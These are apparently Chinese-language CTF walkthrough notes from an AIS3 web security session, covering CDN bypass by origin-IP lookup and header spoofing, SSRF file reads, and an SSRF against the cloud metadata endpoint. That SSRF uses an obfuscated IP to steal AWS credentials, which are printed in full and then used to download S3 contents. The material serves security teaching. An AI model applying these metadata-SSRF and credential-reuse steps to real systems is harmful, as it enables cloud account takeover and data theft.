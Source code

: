 # 8/2 morning WEB security

## CDN繞過

題目 [https://realme.0x61697333.cf](https://realme.0x61697333.cf)

要繞過CDN 先用[virustotal](https://www.virustotal.com/zh-tw/)掃一下domain

結果:
```
2018-08-01 104.28.10.231
2018-08-01 104.28.11.231
2018-07-31 52.194.38.175
```
前兩個是CDN

52.194.38.175 是server位置

在/etc/hosts新增

`52.194.38.175  realme.0x61697333.cf`

(讓請求不要走CDN)

> curl -H "CF-Connecting-IP: 127.0.0.1" http://realme.0x61697333.cf/

## SSRF

## 01
[SSRF 01](http://ssrf01.0x61697333.cf/index.php)

提示是ubuntu, nginx 

先看設定檔預設路徑

丟輸入匡

> file:///etc/nginx/sites-enabled/default

> file:///meow/ais3/index.php

## 10
[SSRF 10](http://ssrf01.0x61697333.cf/index.php)

ip有基本檢查 要繞一下

在輸入匡丟:
> http://169.254.169.0xfe/latest/meta-data/iam/security-credentials

噴:`MagicAIS3`

輸入匡:
> http://169.254.169.0xfe/latest/meta-data/iam/security-credentials/MagicAIS3

把資料加到[weirdAAL](https://github.com/carnal0wnage/weirdAAL)設定檔

```
[default]
aws_access_key_id = ASIAU2Z4MLXCGNVN256B
aws_secret_access_key = dGtFxTt/kdPdS0k6UMoaxMO9VMjw0Pk4CQLxnM/M
aws_session_token = FQoGZXIvYXdzEC4aDFOpSAIZQ01cgHHwrCLBAx8DBVXgbglo6WvkIToFh71yqrXXN56Hh7dyMIzGzfbyZ0c3NO6f/RVWVlUXM3zSIEdLuP    PEVgfuy0KL85cHV1hfP62v5kFW4SIhwaGyJjhEh5nJsV8AUlpgUfeZljPexUA5F0viz1p0lg7bPTR9CQZYSZsNP3PLkudYXTGG/Lf4u40o2oElwQsbG1R6Zf2A7nxb    3xj63u2g4fhJV+pqBkhLLSOOrEiQ2Y7B+7yKSWtf0fSWZtwZgbqsG8ClzflMWejzu5RbcDXHsoHiILgE9tZoWqRU6zKxKOrczk03LAbIuVDfpj8oCjIDq0uU9/BFMh    qTUKXjzNslGeiYgsqVyhwvKexfLYpjHWaGs8wuYFrI/R2NKn08oN6qIph/bj2jeEISdxjih1oHmDDLMOlUEhHewLVdqDM9zpJ9pjjMZWOepsOoAbwpDCu8mMfHvS7N    q2zhsmQ1dueVxP48Ps1sQKhDa83sx9esMxfrYvYnXY34h1csxU4kCdgoGcqR/soKTOHXnvcj9i5ZZ0Gw+JUtL7yezt0l6UVhdZtu5UBbhn848LrkhFlXo4sqyHdxF4    y+kkka26WsmHBqOny0sc29SJAhKK2KitsF
```

terminal:

> python3 weirdAAL.py -m s3_list_buckets -t yoo

> python3 weirdAAL.py -m s3_list_bucket_contents -a "ais3-flag-box" -t yolo

> python3 weirdAAL.py -m s3_download_file -a 'ais3-flag-box','ais3-flag.txt' -t yolo
